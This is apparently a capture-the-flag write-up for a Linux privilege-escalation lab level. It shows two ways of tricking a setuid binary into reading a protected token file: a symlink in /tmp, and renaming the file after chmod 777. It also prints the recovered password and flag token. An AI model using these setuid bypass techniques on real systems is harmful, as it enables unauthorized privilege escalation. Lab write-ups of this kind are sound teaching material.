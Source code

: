 # Level08

```bash
ls -la

-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

# Method01:
ln -s ~/token /tmp/flag
./level08 /tmp/flag
quif5eloekouj29ke0vouxean

# Method02:
chmod 777 .
mv token flag
./level08 flag
quif5eloekouj29ke0vouxean

su flag08
getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f